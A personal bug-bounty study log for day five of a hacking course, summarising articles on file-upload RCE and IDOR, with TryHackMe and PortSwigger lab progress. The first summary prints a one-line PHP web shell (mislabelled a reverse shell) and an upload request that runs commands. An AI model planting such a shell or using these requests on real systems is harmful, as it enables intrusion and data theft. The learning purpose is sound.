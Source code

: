 # Day-5 (30-Days-Of-Hacking)

### 1. Read 3 Article: [DONE]

- https://medium.com/@haroonhameed_76621/achieving-remote-code-execution-via-unrestricted-file-upload-6050f360c218
- https://mearegtu.medium.com/broken-access-control-cc6cfd793b15
- https://mearegtu.medium.com/insecure-direct-object-reference-exposes-all-users-of-microsoft-azure-independent-software-vendors-bed3b45e509

#### Learned:

1. From Article 1:
      - Reverse Shell : `(<?php$cmd = $_GET['cmd'];echo `$cmd`;?>)`
      - Found script.js in JavaScript File, Fuzzing is Important, Fuzz everywhere.
      - `POST /uploadform/uploads/shell.php?code=echo%20%60id%60 HTTP/2`
      - And We got our RCE via File Upload.

2. From Article 2:
    - Broken Access Control, VUlnerable Endpoint : `(/api/Users/email?emailId=maotg@???.onmicrosoft.com)`
    - Able to extract other details using Endpoint: `(/api/Users/email?emailId=moxxx@???.onmicrosoft.com)`
    - This Endpoint Contains All user DATA ~ 112 MB Endpoint: `(/api/Users)` Which equals to 100,000 users Data, this is HUGE.

3. From Article 3:
    - IDOR Vulnerability, Vulnerable Sellerid Endpoint `(GET /en-us/dashboard/account/<reduct>/<reduct>/<reduct>/<reduct>/76????10/users HTTP/2)`
    - Close analysis reveals ‘sellerId’ parameter value seems sequential in nature.
    - Able to extract other details using `(GET /en-us/dashboard/account/<reduct>/<reduct>/<reduct>/<reduct>/76????20/users HTTP/2)`
    - **Python Script To Automate Everything :**![](https://miro.medium.com/max/1400/1*wSqF6_RolTJjql3AiuDupg.png)

### 2. TryHackMe Labs: [DONE]

 - [X] Solved Complete Room Of **Hydra && Sublist3r** : https://tryhackme.com/room/hydra , https://tryhackme.com/room/rpsublist3r
  
### 3. PortSwigger Labs: [DONE]

 - [X] **Access control vulnerabilities (7/13)**
 -  Lab: User ID controlled by request parameter  (https://portswigger.net/web-security/access-control/lab-user-id-controlled-by-request-parameter)
 -  Lab: User ID controlled by request parameter with data leakage in redirect  (https://portswigger.net/web-security/access-control/lab-user-id-controlled-by-request-parameter-with-data-leakage-in-redirect)
 -  Lab: User ID controlled by request parameter with password disclosure (https://portswigger.net/web-security/access-control/lab-user-id-controlled-by-request-parameter-with-password-disclosure)
 -  Lab: Insecure direct object references (https://portswigger.net/web-security/access-control/lab-insecure-direct-object-references)
  
### 4. Youtube Video: [HALF DONE]

 - Watched : BittenTech HTTP Security Headers | Content Security Policy (CSP) | Strict Transport Security (HSTS) : (https://www.youtube.com/watch?v=8_nfQAdWELU&t=1148s)
